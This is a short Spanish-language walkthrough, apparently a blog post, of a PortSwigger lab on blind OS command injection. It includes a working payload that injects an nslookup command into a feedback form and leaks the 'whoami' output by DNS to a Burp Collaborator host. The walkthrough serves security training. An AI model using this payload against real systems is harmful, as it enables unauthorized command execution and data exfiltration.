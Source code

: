 ```yaml
---
title: "05 Blind OS command injection with out-of-band data exfiltration"
collection: publications
category: portswigger
permalink: publications/Command Injection/05_Blind OS command injection with out-of-band data exfiltration
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección de comandos de SO ciego en la función de retroalimentación.

La aplicación ejecuta un comando shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asíncrona y no tiene ningún efecto sobre la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que se pueda acceder. Sin embargo, se pueden desencadenar interacciones fuera de banda con un dominio externo.'
date: 2024-12-08
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind OS command injection with out-of-band data exfiltration'
---
```


![logo]({{site.url}}/images/Command Injection/command-lab-5/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Command Injection/command-lab-5/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, ejecutamos el comando whoami y exfiltramos la salida a través de una consulta DNS a Burp Collaborator.

## Analisis

En esta ocación este laboratorio no podemos redireccionar la salida del comando a otra carpeta, sino a un servidor externo. BurpSuite nos proporciona un "Servidor" el cual se va a redireccionar la salida del comando ejecutado.

Copiamos el servidor `nslookup` que nos proprciona

![Conf1]({{site.url}}/images/Command Injection/command-lab-5/conf1.png)

Asi que debemos inyectar el payload en la respuesta del formulario, no olvidar colocar `url enconde`

```javascript
& nslookup `whoami`.tjgapmpd6yhieubhjiot4zc7iyoqco0d.oastify.com #
```

![Conf2]({{site.url}}/images/Command Injection/command-lab-54/conf2.png)

Vemos la respuesta

![Conf3]({{site.url}}/images/Command Injection/command-lab-5/conf3.png)

Y la pegamos en el laboratorio

![Conf4]({{site.url}}/images/Command Injection/command-lab-5/conf4.png)

## Aprobado

![Aprobado]({{site.url}}/images/Command Injection/command-lab-5/aprobado.png)